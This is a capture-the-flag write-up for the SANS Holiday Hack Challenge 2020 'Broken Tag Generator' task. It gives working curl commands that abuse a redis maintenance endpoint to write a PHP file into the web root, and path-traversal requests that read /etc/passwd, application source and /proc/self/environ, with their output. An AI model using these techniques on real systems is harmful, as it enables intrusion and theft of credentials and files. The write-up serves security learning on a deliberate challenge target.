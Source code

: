# Writeup for SANS Holiday Hack Challenge 2020 - 'Zat You, Santa Claus? featuring KringleCon 3: French Hens
# 8. Broken Tag Generator
## 8.0. Description
Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.
## 8.1. Side Challenge - Redis Bug Hunt
This challenge revolves around an issue in redis maintenance mode allowing to create arbitrary files and potentially leading to RCE with the target of obtaining the source code of the application.  
I leveraged the feature to create a new php file which included the content of the actual `index.php` one:
```bash
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=config,set,dir,%2Fvar%2Fwww%2Fhtml%2f"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dir' '/var/www/html/'
OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=config,set,dbfilename,index2.php"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dbfilename' 'index2.php'
OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=set,test,%3C%3Fphp%0A%24homepage%20%3D%20file_get_contents%28%27index.php%27%29%3B%0Aecho%20%24homepage%3B%0A%3F%3E"
OK
Running: redis-cli --raw -a '<password censored>' 'set' 'test' '<?php
$homepage = file_get_contents('\''index.php'\'');
echo $homepage;
?>'

OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=save"
Running: redis-cli --raw -a '<password censored>' 'save'

OK
player@1be6e6576403:~$ curl http://localhost/index2.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�+��_used-mem¨
 aof-preamble��� test@D<?php

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
example1The site is in maintenance modeexample2#We think there's a bug in index.php��Pƫ��ڪ
```

## 8.2. Hints
> **Endpoint Exploration** - Holly Evergreen: *“Is there an endpoint that will print arbitrary files?”*  
> **Content-Type Gotcha** - Holly Evergreen: *“If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!”*  
> **Error Page Message Disclosure** - Holly Evergreen: *“Can you figure out the path to the script? It's probably on error pages!”*  
> **Download File Mechanism** - Holly Evergreen: *“Once you know the path to the file, we need a way to download it!”*  
> **Source Code Retrieval** - Holly Evergreen: *“We might be able to find the problem if we can get source code!”*  
> **Redirect to Download** - Holly Evergreen: *“If you find a way to execute code blindly, I bet you can redirect to a file then download that file!”*  
> **Patience and Timing** - Holly Evergreen: *“Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!”*  
> **Source Code Analysis** - Holly Evergreen: *“I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?”*  

## 8.3. Solution
Analyzing the JS source code I highlighted two interesting code lines: `img.attr('src', '/image?id=${id}'`); and `window.location = '/share?id=${res.id}'`;. Probing these URLs led to interesting results which made me have a pretty strong feeling of Path Traversal and how to exploit it. Further probing confirmed it thus I was able to obtain the source code of the application and the content of the `GREETZ` environment variable with value `JackFrostWasHere`.
```bash
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/test</p>
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/share?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash

thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb --output tag-generator/app.rb
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4886  100  4886    0     0   3485      0  0:00:01  0:00:01 --:--:--  3485

thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../proc/self/environ --output tag-generator/environ
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   399  100   399    0     0    233      0  0:00:01  0:00:01 --:--:--   233
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ cat tag-generator/environ 
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
## 8.4. Ciao Jack
Just wanted to say “[Hi](https://www.youtube.com/watch?v=0fz9-gqwThQ)!” 😁

---
# 9. [ARP Shenanigans](../09.%20ARP%20Shenanigans/README.md)
# 10. [Defeat Fingerprint Sensor](../10.%20Defeat%20Fingerprint%20Sensor/README.md)
# 11a. [Naughty/Nice List with Blockchain Investigation Part 1](../11a.%20Naughty-Nice%20List%20with%20Blockchain%20Investigation%20Part%201/README.md)
# 11b. [Naughty/Nice List with Blockchain Investigation Part 2](../11b.%20Naughty-Nice%20List%20with%20Blockchain%20Investigation%20Part%202/README.md)

---
# 0. [thedead@asian:~$ whoami](../README.md)
# ?. 33.6 Kbps
# 1. Uncover Santa's Gift List
# 2. Investigate S3 Bucket
# 3. Point-of-Sale Password Recovery
# 4. Operate the Santavator
# 5. Open HID Lock
# 6. Splunk Challenge
# 7. Solve the Sleigh's CAN-D-BUS Problem